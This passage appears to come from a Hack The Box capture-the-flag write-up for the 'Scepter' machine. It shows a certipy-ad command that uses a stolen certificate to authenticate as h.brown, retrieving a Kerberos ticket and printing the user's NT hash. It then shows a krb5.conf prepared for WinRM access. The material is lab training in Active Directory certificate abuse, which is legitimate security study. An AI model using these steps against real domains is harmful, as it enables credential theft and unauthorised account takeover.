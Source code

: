 And when we authenticated with it as `h.brown` we received the corresponding `hash`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad auth -pfx d.baker.pfx -domain scepter.htb -username h.brown
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
```

#### Kerberos Configuration

From here on we had to configure the `realm` of `scepter.htb` in our `/etc/krb5.conf` in order for us to use `WinRM` to gain access as `h.brown` on the box.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ cat /etc/krb5.conf 
[libdefaults]
        default_realm = SECPTER.HTB
        dns_lookup_realm = false
        dns_lookup_kdc = true

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        SCEPTER.HTB = {
                kdc = dc01.scepter.htb
                admin_server = dc01.scepter.htb
        }
<--- CUT FOR BREVITY --->
[domain_realm]
        .scepter.htb = SCEPTER.HTB
        scepter.htb = SCEPTER.HTB
```

### WinRM Access
